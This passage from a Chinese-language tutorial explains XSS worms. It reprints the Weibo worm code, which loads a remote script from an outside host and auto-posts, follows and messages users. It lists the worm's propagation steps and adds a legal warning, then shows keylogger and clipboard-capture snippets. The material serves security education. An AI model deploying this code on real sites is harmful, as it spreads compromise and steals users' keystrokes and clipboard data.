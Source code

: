 ```javascript
function main() {
  try {
    publish(); //模拟发表微博
  } catch (e) {}
  try {
    follow(); //模拟关注用户
  } catch (e) {}
  try {
    message(); //模拟发送私信
  } catch (e) {}
}
try {
  //在当前 body 尾部插入存放在远端的 Xss 恶意脚本
  x =
    "g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";
  window.opener.eval(x);
} catch (e) {}
main();
var t = setTimeout('location="http://weibo.com/pub/topic";', 5000);
//等待 5 秒跳转到微话题页面
```

总结了该 XSS 蠕虫的攻击流程

1. 利用 XSS 漏洞插入恶意 JS 代码
2. 利用 XMLHttpRequest 发送请求去发表微博, 关注用户, 获取关注者列表并向其发送私信
3. 微博消息和私信都包含有恶意攻击链接, 等于实现了攻击代码的自我复制和传播

由此可见, 一个完整的 XSS 蠕虫常常具备如下特征

- 目标网站存在 XSS 漏洞
- 攻击代码的自我复制和传播, 其传播方式依赖于业务场景, 更多是在社交功能上, 比如博客, 私信, 微博, 评论

声明: 在互联网上传播 XSS 蠕虫属于违法行为, 即使是处于合法的渗透测试任务, 也该严格控制传播的可能性, 否则出现失控, 仍需承担法律责任

### 其它攻击方法

在 XSS 漏洞攻击场景下, 凡是 JavaScript 能够实现功能, 都可以自由发挥, 实现不同的攻击方法

比如键盘记录

```javascript
keys = ""
document.onkeypress = function(){
  keys += String.fromCharCode(window.event.keyCode);
}
```

比如在 Chrome 浏览器中使用代码截获剪贴板内容

```javascript
document.addEventListener('paste', function (evt) {
  clipdata = evt.clipboardData || window.clipboardData;
  console.log(clipdata.getData('text/plain'));
});
```
